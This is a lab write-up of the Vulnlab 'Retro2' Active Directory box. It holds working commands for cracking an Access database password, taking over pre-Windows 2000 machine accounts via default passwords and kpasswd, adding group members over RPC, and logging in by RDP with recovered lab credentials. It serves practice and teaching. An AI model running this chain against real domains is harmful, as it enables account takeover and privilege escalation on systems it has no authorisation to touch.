# Retro2 -- Vulnlab (write-up)

**Difficulty:** Hard
**Box:** Retro2 (Vulnlab)
**Author:** dsec
**Date:** 2024-08-16

---

## TL;DR

### Cracked an Access database from an SMB share to get LDAP creds, discovered pre-Windows 2000 computer accounts with default passwords, changed the machine account password via kpasswd, and used RBCD to escalate privileges.

---

## Target info

- Domain: `retro2.vl`
- DC: `BLN01.retro2.vl`

---

## Enumeration







Found an `.accdb` file -- had to be opened with MS Office (LibreOffice **did not** work), and it required a password.

- Cracked with `office2john`: password is `class08`
- Revealed creds: `ldapreader:ppYaVcB5R`





- Also contains machine accounts:







The "Assign this computer account as a pre-Windows 2000 computer" checkbox assigns a password based on the new computer name. If the account was never used, the password should still be the default (lowercase computer name without the `$`).

---

## Machine account takeover

Set up Kerberos config:

```bash
echo "10.10.74.168 BLN01.retro2.vl BLN01" | sudo tee -a /etc/hosts

cat > ~/retro2.krb5.conf <<'EOF'
[libdefaults]
default_realm = RETRO2.VL
dns_lookup_realm = false
dns_lookup_kdc = false
ticket_lifetime = 24h
renew_lifetime = 7d
rdns = false
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true

[realms]
RETRO2.VL = {
kdc = BLN01.RETRO2.VL
admin_server = BLN01.RETRO2.VL
}

[domain_realm]
.retro2.vl = RETRO2.VL
retro2.vl = RETRO2.VL
EOF

export KRB5_CONFIG=~/retro2.krb5.conf
```

Tested default machine account password:

```bash
nxc smb BLN01.retro2.vl -d RETRO2 -u 'FS02$' -p 'fs02'
```

- Returns `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` -- confirms default password works.

Changed the machine account password:

```bash
kpasswd 'FS02$@RETRO2.VL'
# Old password: fs02
# New password: XyZ!2025retroFS02
```

Confirmed new password works:

```bash
nxc smb BLN01.retro2.vl -d RETRO2 -u 'FS02$' -p 'XyZ!2025retroFS02'
```







```bash
addcomputer.py -computer-name 'ADMWS01$' -computer-pass 'SomePassword' -no-add 'retro2.vl/FS02$:XyZ!2025retroFS02'
```

```bash
net rpc group members "SERVICES" -U retro2.vl/"ADMWS01$" -S BLN01.retro2.vl
```



```bash
xfreerdp /v:10.10.74.168 /u:.\ldapreader /p:'ppYaVcB5R' /sec:rdp /cert:ignore
```

---

## Lessons & takeaways

- Pre-Windows 2000 computer accounts have default passwords based on the lowercase computer name -- always check for these
- `office2john` works for cracking Access database passwords
- `kpasswd` can change machine account passwords if you know the current one
- LibreOffice may **not** handle `.accdb` files the same way as MS Office -- sometimes you need the real thing
